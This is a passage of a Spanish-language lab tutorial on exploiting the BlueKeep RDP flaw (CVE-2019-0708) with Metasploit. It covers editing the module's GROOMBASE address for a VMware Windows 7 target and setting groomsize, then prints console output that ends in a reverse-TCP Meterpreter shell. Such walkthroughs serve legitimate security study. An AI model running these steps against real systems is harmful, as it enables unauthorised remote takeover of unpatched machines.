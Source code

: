 Por lo que vemos la hemos encontrado, en mi caso elegire la primera direccion de memoria que nos da, para insertarla en el codigo (`fffffa80042d7000`).

Y tendria que quedar algo tal que asi el `nano`:

```shell
[
            # This address works on VMWare 15.1
            'Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 15.1)',
            {
              'Platform' => 'win',
              'Arch' => [ARCH_X64],
              # 'GROOMBASE' => 0xfffffa8018c08000
              'GROOMBASE' => 0xfffffa80042d7000  
            }
],
```

Por lo que cerramos y guardamos.

Y con esto ya tendriamos modificado este `exploit` de manera manual y listo para lanzar.

Pero antes tendremos que recargar `metasploit` por lo que nos salimos de `metasploit` y volvemos a entrar.

```shell
msfconsole -q
```

Volvemos a configurar todo de nuevo otra vez, estableciendo la IP del atacante, la de destino, los targets, etc...

Pero antes de iniciarlo, estableceremos el `groomsize` a `50`:

```shell
set groomsize 50
```

Una vez que este todo establecido, le daremos a `exploit`:

```
[*] Started reverse TCP handler on 192.168.16.128:4444 
[*] 192.168.16.132:3389 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.16.132:3389 - Using auxiliary/scanner/rdp/cve_2019_0708_bluekeep as check
[+] 192.168.16.132:3389   - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 192.168.16.132:3389   - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.16.132:3389 - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 192.168.16.132:3389 - Using CHUNK grooming strategy. Size 50MB, target address 0xfffffa80074d7000, Channel count 1.
[!] 192.168.16.132:3389 - <---------------- | Entering Danger Zone | ---------------->
[*] 192.168.16.132:3389 - Surfing channels ...
[*] 192.168.16.132:3389 - Lobbing eggs ...
[*] 192.168.16.132:3389 - Forcing the USE of FREE'd object ...
[!] 192.168.16.132:3389 - <---------------- | Leaving Danger Zone | ---------------->
[*] Sending stage (201798 bytes) to 192.168.16.132
[*] Meterpreter session 1 opened (192.168.16.128:4444 -> 192.168.16.132:49301) at 2024-11-14 06:00:40 -0500

meterpreter >
```

> NOTA:

Hay a veces que esto es tan sensible que aun habiendo modificado todo puede ser que no nos salga a la primera, pero probando varias veces deberia de llegar a salir.
